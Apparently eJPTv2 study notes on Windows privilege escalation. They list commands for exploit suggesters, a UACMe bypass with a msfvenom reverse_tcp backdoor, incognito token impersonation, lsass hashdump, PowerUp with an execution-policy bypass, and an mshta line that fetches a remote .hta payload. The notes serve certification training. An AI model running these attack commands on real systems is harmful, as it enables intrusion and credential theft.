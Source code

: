 # Kernel Exploit:

- [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) : missing patches comparison
- ./windows-exploit-suggester.py --update - generates xls to use in nxt step
- ./windows-exploit-suggester.py --database --systeminfo <txt_file_with_systeminfo_output_from_win_shell>
- google exploit, may need to upload .exe to target sys, run it to get elevated shell
- [https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)

# Metasploit Modules:

- post/multi/recon/local_exploit_suggester : suggest exploits
    - eg. exploit/windows/local/ms16_014_wmi_recv_notif

# UACBypass - UACMe

- need local admin account access
- migrate process to explorer.exe
- pgrep explorer.exe OR ps -S explorer.exe
- [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
- using meterpreter, upload Akagi64.exe and upload playload generated with msfvenom to target system
    - use exploit/multi/handler to start a listener
    - Akagi64.exe 23 <payload_path> : run on target computer
    - Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
- once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
- migrate to lsass.exe and run hashdump

# Impersonate

[![meterpreter getuid](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/privesc-01.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/privesc-01.png)

[![meterpreter access denied to read file](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/privesc-02.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/privesc-02.png) ￼￼

- load icognito
- list_tokens -u : make note of available tokens (eg. delegation token)
- impersonate_token <token_name>

[![meterpreter access denied to read file](https://github.com/neilmadhava/EJPTv2-Notes/raw/main/Host%20Based%20Attacks/images/privesc-03.png)](https://github.com/neilmadhava/EJPTv2-Notes/blob/main/Host%20Based%20Attacks/images/privesc-03.png) ￼￼ ￼

# PowerUp

- [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- In target machine:
    - powershell -ep bypass (PowerShell execution policy bypass)
    - . .\PowerUp.ps1
    - Invoke-PrivescAudit - it will find misconfig files/leftover files like Unattend.xml
    - Get password from the Unattend.xml file, decode base64.
    - $password='QWRtaW5AMTIz' $password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password)) echo $password
    - runas.exe /user:administrator cmd
- In attacker machine:
    - use exploit/windows/misc/hta_server
    - running the above module generates a .hta payload, run in cmd on target
    - on target cmd: mshta.exe [http://10.10.0.2:8080/6Nz7aySfPN.hta](http://10.10.0.2:8080/6Nz7aySfPN.hta)